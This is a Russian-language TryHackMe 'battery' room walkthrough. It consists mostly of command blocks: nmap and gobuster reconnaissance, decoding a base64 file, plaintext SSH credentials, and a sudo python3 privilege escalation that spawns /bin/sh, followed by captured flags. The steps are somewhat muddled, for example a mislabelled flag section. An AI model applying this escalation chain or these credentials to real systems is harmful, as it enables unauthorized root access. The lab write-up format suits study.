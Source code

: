 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [battery](https://tryhackme.com/r/room/battery) 

Всего 1 заданиe:
## Задание 1
Портал счетов за электроэнергию уже много раз взламывался, поэтому мы уволили одного из сотрудников службы 
безопасности. Как новичок, вы должны работать как хакер, чтобы найти лазейки в портале и получить root-доступ к 
серверу.

Надеюсь, вам понравится это путешествие! 

Не публиковать описание/прохождение до 19/01/2021

### Ответьте на вопросы ниже
Базовый флаг: 
```commandline
nmap -sSCV <IP>
gobuster dir -u http://<IP> -w /usr/share/dirb/wordlists /common.txt -x txt,php
<IP>/register.php
<IP>/report
strings report
echo "base64EncodedString" | base64 -d >> output.php
cyber:super#secure&password!
ssh cyber@<IP>
cat flag1.txt
```
```commandline
THM{6f7e4dd134e19af144c88e4fe46c67ea}
```
Флаг пользователя:
```commandline
sudo -l
echo 'import os; os.system("/bin/sh")' > /home/cyber/run.py
chmod +x run.py
cyber@ubuntu:~$ sudo /usr/bin/python3 /home/cyber/run.py
whoami
# cat /root/root.txt
```
```commandline
THM{20c1d18791a246001f5df7867d4e6bf5}
```
Корневой флаг:
```commandline
cd /home
ls
cyber yash
cd cybr
ls
cyber yash
emergency.py fernet flag2.txt root.txt
cat flag2.txt
```
```commandline
THM{db12b4451d5e70e2a177880ecfe3428d}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)